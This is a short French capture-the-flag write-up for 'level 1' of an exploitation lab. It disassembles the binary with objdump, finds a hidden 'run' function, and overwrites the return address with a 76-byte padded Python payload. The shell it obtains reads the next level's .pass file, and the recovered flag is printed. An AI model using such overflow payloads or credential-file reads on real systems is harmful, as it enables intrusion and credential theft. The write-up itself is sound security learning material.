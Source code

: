 ## Level 1

On fait un `objdump -d  ~/level1`

On appercoit `main`, mais aussi `run`.
```
> objdump -d  ~/level1
[...]
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
[...]
08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
```

L'addresse de run en hexa est `08048444`
En little-endian, l'addresse est `\x44\x84\x04\x08`.

Dans le code C, on se rend compte qu'il ne peut y avoir que 76 octet alloués. Il y a donc un **segault** à partir de `76` caractères.

On peut donc faire:
```
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/hack1
> cat /tmp/hack1 - |  ./level1
[...]
Good... Wait what?
cat /home/user/level2/.pass
[...]
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
``` 

Dans notre fichier `hack1`, on a donc 76 caractères A + l'adresse de run.

Ensuite, on a envoyé notre fichier sur l'entrée standard de `level1` et avec le flag `-` de `cat`. On peut entrer la commande nous permettant d'obtenir le flag.

